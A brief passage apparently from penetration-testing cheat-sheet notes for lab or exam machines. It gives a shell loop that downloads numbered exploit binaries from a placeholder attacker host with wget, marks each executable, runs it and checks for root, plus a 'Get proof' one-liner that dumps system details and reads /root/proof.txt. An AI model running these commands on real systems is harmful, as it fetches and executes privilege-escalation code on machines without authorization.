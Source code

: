 ```text
for a in 9352 9513 33321 15774 15150 15944 9543 33322 9545 25288 40838 40616 40611 ; do wget http://yourIP:8000/$a; chmod +x $a; ./$a; id; done
```

### Get proof

```text
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```



